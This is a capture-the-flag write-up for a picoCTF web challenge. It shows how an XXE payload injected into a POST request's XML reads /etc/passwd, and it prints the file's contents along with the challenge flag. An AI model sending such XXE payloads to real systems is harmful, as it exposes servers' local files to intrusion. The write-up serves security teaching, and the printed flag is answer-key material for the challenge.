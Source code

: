 # SOAP
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

## Solution
The tag 'xxe' of the challenge gives a hint on what we have to look for.

Opening the page we can click several button that will show different information. In ZAP we can see that there is a POST call with XML as payload: `<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>`

XXE (XML\_External\_Entity) attacks the application that parses the XML code. If the parser isnt well configured we can abuse it and access over the XML payload local files.

Manipulating the Request
```
<?xml version="1.0" encoding="UTF-8"?><data><ID>3</ID></data>
```
to
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```
gives the /etc/passwd back. Included in here is the flag:
```
[...]
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```

## Further reading
<https://portswigger.net/web-security/xxe>
<https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing>
